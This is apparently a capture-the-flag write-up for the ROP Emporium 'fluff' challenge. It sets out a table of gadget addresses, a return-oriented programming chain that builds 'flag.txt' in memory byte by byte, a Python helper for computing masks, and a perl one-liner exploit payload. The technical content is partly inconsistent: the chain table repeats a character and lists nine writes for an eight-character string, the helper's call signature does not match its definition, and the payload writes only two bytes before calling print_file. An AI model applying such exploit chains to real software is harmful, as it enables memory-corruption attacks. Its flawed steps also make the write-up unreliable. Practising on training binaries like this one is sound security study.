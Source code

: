 # fluff
The challenge is available [here](https://ropemporium.com/challenge/fluff.html).

## Black-Box Test

## In-depth research

## Solution
In the following table, the important addresses for constructing the ROP chain are summarized, along with a brief description of each.

| Name          | Type            | Address    | Description                                                                      |
|---------------|-----------------|------------|----------------------------------------------------------------------------------|
| print_file    | Func            | 0x080483d0 | The entry address in the PLT table.                                              |
| memory4string | Writable Memory | 0x0804a018 | .data segment addr will be where the string "flag.txt" is placed.                |
| pop_bswap_cx        | Gadget          | 0x08048558 | pop ecx;<br />bswap ecx;<br />ret;                                                         |
| pop_bp        | Gadget          | 0x080485bb | pop ebp;<br />ret;                                                                    |
| prepare_dx       | Gadget          | 0x08048543 | mov eax, ebx;<br />mov ebx, 0xb0bababa;<br />pext edx, ebx, eax;<br />mov eax, 0xdeadbeef; ret; |
| exchange_byte | Gadget          | 0x08048555 | xchg BYTE PTR [exc], dl;<br />ret;                                                    |

And the next table describes the ROP chain itself:

| No | Chain Link                          | Note                                                                                                                                                                                                                                                                                |
|----|-------------------------------------|-------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------|
| 1  | 44 garbage bytes                    |                                                                                                                                                                                                                                                                                     |
| 2  | pop_bswap_cx, `memory4string`       | `memory4string` in big-endian.                                                                                                                                                                                                                                                      |
| 3  | pop_bp, get_mask("f")               | The function `get_mask` calculates the bit sequence needed<br/>for a register that serves as a mask in the `xchg` instruction<br/>(with a constant value of `0xdeadbeef` on which the mask operates)<br/>so that the operation produces the desired character. In this case, `"f"`. |
| 4  | prepare_dx                          |                                                                                                                                                                                                                                                                                     |
| 5  | exchange_byte                       | After this operation, the string will be `"f"`                                                                                                                                                                                                                                      |
| 6  | pop_bswap_cx, `memory4string+1`     | `memory4string+1` in big-endian.                                                                                                                                                                                                                                                    |
| 7  | pop_bp, get_mask(`"l"`)             |                                                                                                                                                                                                                                                                                     |
| 8  | prepare_dx                          |                                                                                                                                                                                                                                                                                     |
| 9  | exchange_byte                       | After this operation, the string will be `"fl"`                                                                                                                                                                                                                                     |
| 10 | pop_bswap_cx, `memory4string+2`     | `memory4string+2` in big-endian.                                                                                                                                                                                                                                                    |
| 11 | pop_bp, get_mask(`"a"`)             |                                                                                                                                                                                                                                                                                     |
| 12 | prepare_dx                          |                                                                                                                                                                                                                                                                                     |
| 13 | exchange_byte                       | After this operation, the string will be `"fla"`                                                                                                                                                                                                                                    |
| 14 | pop_bswap_cx, `memory4string+3`     | `memory4string+3` in big-endian.                                                                                                                                                                                                                                                    |
| 15 | pop_bp, get_mask(`"a"`)             |                                                                                                                                                                                                                                                                                     |
| 16 | prepare_dx                          |                                                                                                                                                                                                                                                                                     |
| 17 | exchange_byte                       | After this operation, the string will be `"fla"`                                                                                                                                                                                                                                    |
| 18 | pop_bswap_cx, `memory4string+4`     | `memory4string+4` in big-endian.                                                                                                                                                                                                                                                    |
| 19 | pop_bp, get_mask(`"g"`)             |                                                                                                                                                                                                                                                                                     |
| 20 | prepare_dx                          |                                                                                                                                                                                                                                                                                     |
| 21 | exchange_byte                       | After this operation, the string will be `"flag"`                                                                                                                                                                                                                                   |
| 22 | pop_bswap_cx, `memory4string+5`     | `memory4string+5` in big-endian.                                                                                                                                                                                                                                                    |
| 23 | pop_bp, get_mask(`"."`)             |                                                                                                                                                                                                                                                                                     |
| 24 | prepare_dx                          |                                                                                                                                                                                                                                                                                     |
| 25 | exchange_byte                       | After this operation, the string will be `"flag."`                                                                                                                                                                                                                                  |
| 26 | pop_bswap_cx, `memory4string+6`     | `memory4string+6` in big-endian.                                                                                                                                                                                                                                                    |
| 27 | pop_bp, get_mask(`"t"`)             |                                                                                                                                                                                                                                                                                     |
| 28 | prepare_dx                          |                                                                                                                                                                                                                                                                                     |
| 29 | exchange_byte                       | After this operation, the string will be `"flag.t"`                                                                                                                                                                                                                                 |
| 30 | pop_bswap_cx, `memory4string+7`     | `memory4string+7` in big-endian.                                                                                                                                                                                                                                                    |
| 31 | pop_bp, get_mask(`"x"`)             |                                                                                                                                                                                                                                                                                     |
| 32 | prepare_dx                          |                                                                                                                                                                                                                                                                                     |
| 33 | exchange_byte                       | After this operation, the string will be `"flag.tx"`                                                                                                                                                                                                                                |
| 34 | pop_bswap_cx, `memory4string+8`     | `memory4string+8` in big-endian.                                                                                                                                                                                                                                                    |
| 35 | pop_bp, get_mask(`"t"`)             |                                                                                                                                                                                                                                                                                     |
| 36 | prepare_dx                          |                                                                                                                                                                                                                                                                                     |
| 37 | exchange_byte                       | After this operation, the string will be `"flag.txt"`                                                                                                                                                                                                                               |
| 38 | print_file, `"XXXX"`, memory4string |                                                                                                                                                                                                                                                                                     |



```python
def get_mask(target, value):
    target_bits = bin(ord(target))[2:]
    value_bits  = bin(value)[2:]

    mask_bits   = ''

    while(target_bits):
        if target_bits[-1] == value_bits[-1]:
            mask_bits = '1' + mask_bits
            target_bits = target_bits[:-1]
        else:
            mask_bits = '0' + mask_bits

        value_bits = value_bits[:-1]

    while(value_bits):
        if value_bits[-1] == '0':
            mask_bits = '1' + mask_bits
        else:
            mask_bits = '0' + mask_bits
        value_bits = value_bits[:-1]

    mask = int(mask_bits, 2)
    return mask

for c in "flag.txt":
    print(hex(get_mask(c, 0xb0bababa)), c)
```

```
perl -e 'print "X"x44 . "\xbb\x85\x04\x08" . "\x4b\x4b\x45\x4f" . "\x43\x85\x04\x08" . "\x58\x85\x04\x08" . "\x08\x04\xa0\x18" . "\x55\x85\x04\x08" ."\xbb\x85\x04\x08" . "\xdd\x46\x45\x4f" . "\x43\x85\x04\x08" . "\x58\x85\x04\x08" . "\x08\x04\xa0\x19" . "\x55\x85\x04\x08". "\xd0\x83\x04\x08" . "XXXX" . "\x18\xa0\x04\x08"' | ./fluff32
```